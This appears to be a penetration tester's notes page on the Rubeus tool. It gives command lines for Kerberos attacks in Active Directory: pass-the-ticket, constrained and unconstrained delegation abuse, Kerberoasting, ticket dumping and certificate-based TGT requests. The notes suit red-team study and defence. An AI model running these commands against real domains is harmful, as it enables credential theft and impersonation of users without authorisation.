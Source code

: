 # [Rubeus](https://github.com/GhostPack/Rubeus)

---

## [Usage & Flags for Each of Rubeus's Commands](https://github.com/GhostPack/Rubeus)

---

## Listen for and Extract TGTs from Memory at a Particular Interval (Exploiting [[unconstrained-delegation|Unconstrained Delegation]])

Must be executed in the context of `NT AUTHORITY/SYSTEM`.

```powershell
Rubeus.exe monitor /monitorinterval:"$INTERVAL_IN_SECONDS" [/runfor:"$NUMBER_OF_SECONDS_TO_RUN_FOR"]
```

---

## Inject a Kerberos ticket into the Current Context to Execute a [[pass-the-ticket|Pass the Ticket]] Attack

```powershell
Rubeus.exe ptt /ticket:$TICKET
```

- `$TICKET` can either be a base64-encoded TGT or service ticket string or a path to a file containing the TGT or service ticket

---

## Abuse a [[constrained-delegation|Constrained Delegation]] Privilege to Generate a Service Ticket for Any User to a Host for which a SPN is Configured

### 1. Retrieve a TGT for the principal configured with constrained delegation

```powershell
Rubeus.exe [/domain:"$DOMAIN"] /user:"$USERNAME" [/rc4:"$RC4"] [/aes128:"$AES128"] [/aes256:"$AES256"] [/des:"$DES"] [/password:"$PASSWORD"] [/dc:$DOMAIN_CONTROLLER_FQDN_OR_IP] 
```

- `$DOMAIN/$USER` is the domain and username of the principal who has the constrained delegation privilege on `$SPN`
- `$RC4`, `$AES128`, `$AES256`, `$DES`, or `$PASSWORD` is the credential of the principal who has the constrained delegation privilege on `$SPN`

### 2. Retrieve a service ticket for the user to impersonate to the principal configured with constrained delegation (S4U2Self)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /impersonateuser:"$USER_TO_IMPERSONATE"
```

- `$TGT` was generated in step \#1
	- Either the base64-encoded string or a path to a file containing the ticket

### 3. Retrieve a service ticket for the user to impersonate to one of the SPNs available to the principal configured with constrained delegation (S4U2Proxy)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /msdsspn:"$SPN" /tgs:"$SERVICE_TICKET" [/altservice:"$ALTERNATIVE_SERVICE"] [/ptt]
```

- `$SPN`: [[service-principal-name|SPN]] to retrieve the new service ticket for
- `$SERVICE_TICKET` from step \#2
	- Either the base64-encoded string or a path to a file containing the ticket
- `$ALTERNATIVE_SERVICE`: an alternative service to create the new service ticket for, instead of the service from the `$SPN` (i.e., `cifs`, `ldap`, etc.)
- `/ptt` will inject the ticket into the current context. Otherwise, print it to `stdout`


### 4. [[windows/active-directory/tools/rubeus#Inject a Kerberos ticket into the Current Context to Execute a pass-the-ticket Pass the Ticket Attack|Inject the ticket into the current context to execute a pass the ticket attack]]

---

## Generate the RC4 HMAC of a Domain Account's Password

```powershell
Rubeus.exe hash /password:$PASSWORD /user:$USERNAME /domain:$DOMAIN
```

---

## Kerberoast all Kerberoastable Users

```powershell
Rubeus.exe kerberoast
```

---

## List All Accessible Kerberos Tickets

```powershell
Rubeus.exe triage
```

---

## Dump an Accessible Kerberos Ticket

```powershell
Rubeus.exe dump /service:$SERVICE_ONLY_OF_TICKETS_SPN /luid:$LUID /nowrap
```

- Example `$SERVICE_ONLY_OF_TICKETS_SPN` would be `krbtgt` for a TGT

---

## Spawn New Process within New Logon Session

```powershell
Rubeus.exe createnetonly /program:$PATH_TO_PROGRAM
```

The tickets you see will depend on your current context. Local administrators can see all tickets. Regular users can only see their own.

---

## Inject Kerberos Ticket into Logon Session

```powershell
Rubeus.exe ptt /luid:$LUID /ticket:$TICKET_BASE64_STRING
```

- `$LUID` is the logon session's ID

---

## Request TGT using Base64-Encoded PFX Certificate

```powershell
Rubeus.exe asktgt /user:$USERNAME /certificate:$BASE64_PFX_CERTIFICATE /password:$CERTIFICATE_PASSWORD /nowrap
```

- `$USERNAME` formats:
	- Just the username
	- `$DOMAIN\$USERNAME`
	- `$USERNAME@$DOMAIN`
